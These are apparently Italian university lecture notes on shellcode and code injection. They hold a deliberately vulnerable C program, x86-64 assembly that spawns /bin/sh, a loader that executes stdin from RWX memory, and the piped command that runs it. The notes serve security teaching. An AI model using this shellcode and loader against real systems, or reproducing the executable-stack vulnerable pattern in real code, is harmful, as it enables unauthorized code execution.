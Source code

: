 ```yaml
---
id: '9'
lezione: "20231026"
title: "Shellcode"
author: "Sam. K."
keywords: 
---
```

<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

# Shellcode
Shellcode è un pezzo di codice che ha caratteristiche particolari, tra cui il dover essere scritto in linguaggio macchina che viene usato per sfruttare le vulnerabilità all'interno di un codice attraverso attacco di tipo **injection**. Lo shell code, tipicamente viene iniettato all'interno di un processo in esecuzione e magicamente questo lo esegue.

Lo shell code contiene codificato in linguaggio macchina le azioni che l'attaccante vuole eseguire sulla macchina.

## Code Injection
Attacco di base è di tipo **Code Injection** (iniettare codice), prima mandarlo in esecuzione, il codice viene messo all'interno della memoria. La `code injection` è possibile su questi calcolatori grazie al fatto che essi si basano sull'architettura di **John Von Neumann**. **Il principio fondamentale di questa architettura è che i dati e il codice condividono lo stesso spazio di memoria**, infatti iniezione di codice avviene **sfruttando istruzioni di I/O**, quindi dati che vengono messi in memoria occupano lo stesso spazio di memoria. 

![Von Nuemann](assets/images/Von_Neumann_Architecture.png)

> **L'architettura di Harvard** invece data memory e program memory occupano spazi di memoria completamente diversi (alcune architetture ARM la implementa). Quindi, su questa architettura non è possibile fare attacchi di tipo Code Injection.

![Harvard](assets/images/Architettura_harvard.svg.png)

### Codice Vulnerabile
Per eseguire questo attacco boisogna prima individuare un pezzo di codice vulnerabile ovvero un **security bug**, è una vulnerabilità che ci permette di **bypassare/scavalcare meccanismo di protezione** di un sistema, quindi, guadagnare un accesso non autorizzato al sistema.

```c
void bye1(){ puts("Goodbye!\n"); }

void bye2(){ puts("Farewell!\n"); }

void hello(char *name, void (*bye_func)()){
    printf("Hello %s!\n", name);
    bye_func();
}

int main(int argc, char **argv){
    char name[1024];
    gets(name);
    srand(time(0));
    if(rand() % 2) hello(bye1, name);
    else hello(name, bye2);
}
```
compila con:
```sh
gcc -z execstack -g -o myFirstInjection myFirstIngection.c
```

>Questo codice a volte dà segmentation fault! (la parte di else).

### Layout di memoria di un processo linux in 64bit

![Memory layout](assets/images/address_space.png)

* Da 2<sup>48</sup> in su è la zona di memoria riservata al Kernel.
* Il processo ha a disposizione gli indirizzi da 0x400000 fino a 2<sup>48</sup> -1.
  
  * il codice .data,  etc...

Eseguiamo il programma in gdb finché non crasha con signal Segmentation Fault `SIGSEGV` oppure IllegalInstruction.

![GDB seg fault](assets/images/gdb_seg.png)
~~~sh
    # trovre regione di memoria dove il programma ha fallito
    x/s $rip # register instruction pointer / program counter
    print $rip # address: 0x7fffffffda80

    info proc map # mostra la memoria attuale
~~~
In questo momento il `program counter $rip` contiene l'indirizzo (di stack) dell'istruzione che sta provando ad eseguire (`0x7fffffffda80`). 

Processore stava eseguendo l'istruzione $rip quando è avvenuto il fault.

Usando GDB andiamo a vedere cosa contiene quell'indirizzo di memoria: alcuni hanno avuto `(bad)` significa un istruzione sconosciuto ed alcuni hanno trovato un istruzione di `add`.

`x/s $rip` gdb dice qualè il contenuto di quell'indirizzo di memoria. 

Il program counter ad un certo punto è stato posizionato sulla stringa data, quando si chiama hello con bye2 con argomenti invertiti, il programma cerca di eseguire input dell'utente come fosse una funzione (perché si aspetta una funzione/un puntatore a funzione).

La vulnerabilità è che il programmatore ha scambiato l'ordine dei parametri della funzione.

Il fault è stato creato perché il cpu cerca di interpretare il contenuto di quella locazione memoria come un istruzione, che potrebbe essere un istruzione riconosciuto cosi come uno sconosciuto oppure un istruzione che cerca di accedere ad un indirizzo di memoria assurdo (crea un segmentation fault).

![code injection es2](assets/images/code%20injection%20es2.png)

in questo caso l'input `546tragybfzdcx` è stato interpretato come un istruzione di tipo `xor`.

Un codice universale che permette di fare tutto sulla macchina è eseguire una shell da quel programma, da questo viene il nome `ShellCode`. 

Code injection è la vulnerabilità utilizzato da Morris nel 1988 con Internet Worm. 

### Shell Code per eseguire una shell

```s
.intel_syntax noprefix
.global _start 
.section .text
_start:
mov rax, 59
lea rdi, [rip + binsh]
mov rsi, 0
mov rdx, 0
syscall
binsh:
.string "/bin/sh"
```
(non mettere .section .data)

Verificare che il codice assembly compilato sia come segue:

```s
mov rax, 0x3b
lea rdi, [rip+0x1c]
mov rsi,0x0
mov rdx,0x0
syscall
00... <binsh>:
(bad)
(bad)
.byte 0x69
outs dx,BYTE PTR ds:[rsi]
(bad)
jae 4
```
`gcc -nostdlib -static -o shellcode shellcode.s`

Si estrae la sezione .text dal file ELF con il comando `objcopy --dump-section .text=RawFile executable`.

### Carrier

prima di testarlo bisogna iniettarlo per questo si usa un programma che si chiama `Carrier` perché non può essere eseguito da solo.

```c
#include<sys/mman.h>
#include<unistd.h>
int main(void){
    void *page = mmap(0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0); // riserva 1000 byte in cui disabilita tutte le protezioni
    read(0, page, 0x1000); //legge da stdin fino a 1000 byte in questa zona (o al primo EOF)
    ((void(*)())page)(); //manda in esecuzione 
    return 0;
}
```
questo programma:
* `mmap()`: riserva una zona di memoria di `1000 byte` che disabilità tutte le protezioni.
* `read()`: legge da stdin fino a `1000 byte` (fino al primo EOF)
* manda in esecuzione il programma che stato scritto in variabile `page` (zona memoria riservato con `mmap()`)

### Attacco

    cat rawfile - | ./carrier

* rawfile è il file ottenuto con `objcopy --dump-section .text=rawfile shcode`.

    `cat rawfile | ./carrier` # non funziona perché la pipe chiude lo stdin e quando la shell (sh) inizia trova stdin chiuso quindi termina, bisogna usare `cat rawfile - | ./carrier`.

## Esercizio
Creare un file `/flag` nella root, scrivere del codice che accede al suo contenuto e lo stampa.

Scrivere un programma in C estrarre da file compilato assembly il shellcode.

system call da usare: (open, sendfile, exit).

La shell appare all'utente, non all'attaccante, bisogna poi redirigere la shell. (remote shell). Il codice è un pochino piu complicato.